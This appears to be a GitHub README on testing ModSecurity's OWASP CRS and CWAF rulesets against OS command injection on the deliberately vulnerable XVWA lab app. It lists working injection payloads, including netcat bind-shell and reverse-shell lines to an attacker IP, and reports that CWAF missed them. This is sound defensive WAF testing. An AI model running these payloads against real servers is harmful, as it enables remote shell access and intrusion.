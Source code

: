 # WAF-Rule-Testing (OS Command injection Rules)
Testing OS command injection attack on vulnerable application with OWASP CRS && CWAF Ruleset.

**How to identify the flaw on OWASP CRS && CWAF Ruleset?**

    1. At first, set up the vulnerable application i.e xvwa,OWASP Mutillidae Vulnerable App on the server for testing WAF rules.
    2. Install modsecurity and include both OWASP CRS && CWAF ruleset in apache config.
    3. Before testing t Vulnerable app, have a complete knowledge about OWASP TOP 10 vulnerability 
       
       How it works?
       How to exploit it?
       What are the modern evasion technique to bypass WAF rules?
    
    4. Read the Modsecurity Reference manual on Github
    
        Understand how modsecurity works ?
        start analyse the rules?
        Break the regex and analyse how it was developed?
        Start testing regex pattern to understand how prefect it detect payloads? 
        
    5. Start testing the vulnerable app. 
    
**How to test OS command Injection attack on vulnerable application with OWASP CRS && CWAF Ruleset?**
        
    1. Install Modsecurity and Configure OWASP CRS & CWAF rule set.
    2. Install xvwa app and COnfigure it with database.
    3. start testing the XVWA app for OS commands injection.
    
 **Test OS Command injection attack on OWASP CRS**
    
     Note: We can use && or | or ; to pipe the command to execute.
     Include the OWASP CRS on apache config:
    
     Test these following payloads on the xvwa vulnerable application for OS command injection.
     
        127.0.0.1 && cd /root/Desktop/ && pwd && service --status-all 
        127.0.0.1 && ps
        127.0.0.1 && service mysql status
        127.0.0.1 && service apache2 status
    
     As a result, OWASP CRS failed to detect these above Injection Payloads, but it block almost ever major OS Commands injection 
     payloads from execution on server.
     Check the demo video to know more :)
 
 **Test OS Command injection attack on CWAF Ruleset**
    
     Note: We can use && or | or ; to pipe the command to execute.
     Include the CWAF ruleset on apache config:
     
     Test these following payloads on the xvwa vulnerable application for OS command injection.
       
        127.0.0.1 && cd /root/Desktop/ && pwd && ps && service --status-all 
        127.0.0.1 && cat index.php
        127.0.0.1 && echo "tell me whoami?  I am Human or AI :)"
        127.0.0.1 && nc -ln -e /bin/sh -p 9999
        127.0.0.1 && uname -a
        127.0.0.1 && netstat -ltnp | grep '80'

        Let try reverse shell scenario:
        127.0.0.1 && nc -c /bin/sh 192.168.1.12 9999
        Attacker IP - 192.168.1.12
        Attacker Listener port: 9999 

      As a resut, CWAF failed to detect the major OS command injection attack on the application, which lead us to get reverse shell on the server.
      Check the demo video to know more :)
      
## Demo Video
  
   [![Alt text](https://img.youtube.com/vi/U5qmi_yoMQA/0.jpg)](https://www.youtube.com/watch?v=U5qmi_yoMQA)

## Support !
 Email address: umarfarookmech712@gmail.com  for more details. <br>
 Youtube: [FOS](https://www.youtube.com/channel/UCEBHO0kD1WFvIhf9wBCU-VQ) <br>
 Blog: [FOS](https://fosecurity.blogspot.com) 

## Useful links:
 1. [Modsecurity](www.modsecurity.com/)
 2. [Kali](https://www.kali.org/)
 3. [Debuggex](https://www.debuggex.com/)
 4. [OWASP Mutillidae Vulnerable App](https://www.owasp.org/index.php/OWASP_Mutillidae_2_Project)
 5. [XVWA](https://github.com/s4n7h0/xvwa)
 6. [Modsecurity Reference Manual](https://github.com/SpiderLabs/ModSecurity/wiki/Reference-Manual#UNIX)
